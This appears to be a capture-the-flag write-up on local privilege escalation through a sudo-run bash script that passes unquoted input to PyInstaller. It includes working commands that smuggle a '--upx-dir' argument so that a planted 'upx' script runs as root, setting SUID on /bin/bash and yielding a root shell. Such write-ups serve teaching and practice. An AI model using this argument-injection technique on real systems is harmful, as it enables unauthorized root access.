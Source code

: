 ```bash
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
```
{:file="/usr/local/sbin/build-installer.sh"}

It looks like the purpose of this script is to build executables from python source using PyInstaller.
We do notice that the script does a poor job of escaping input when passing it to the PyInstaller executable.
Take this line for example:

```bash
/root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
```
{:.nolineno}

In this line, the _name_ variable (derived from the second argument) is passed to `pyinstaller` as the first positional argument.
The issue is that bash will expand the _name_ variable making it trivial to pass additional arguments.
As a harmless example, we can pass the `--help` flag.

```bash
# tkeller@socket (bash)
sudo build-installer.sh make "--help x.py"
```
{:.filepath}

Looking at the [PyInstaller documentation](https://pyinstaller.org/en/stable/usage.html), we find a few flags that could allow us to perform various actions on the local filesystem.

### Elevated Execution

There's a certain flag that's particularly interesting defined as `--upx-dir`.
It advertises the ability to modify the search path for the UPX executable, which could allow us to execute an arbitrary file as root.
If we change the search path to a writable directory, we could plant a file named `upx`{:.filepath} which should then be executed by PyInstaller.

```bash
# tkeller@socket (bash)
dir=$(mktemp -d)
echo -e '#!/bin/bash\nchmod +s /bin/bash' > $dir/upx && chmod +x $dir/upx
sudo build-installer.sh make "--upx-dir=$dir $(mktemp --suffix=.py)"
ls -l `which bash`
```
{:.nolineno}

We successfully coerce the execution of our executable, which sets the SUID bit in `/bin/bash`{:.filepath}.
We gain a root shell with `bash -p`, grab the root flag, then normalize the SUID bit with `chmod -s /bin/bash`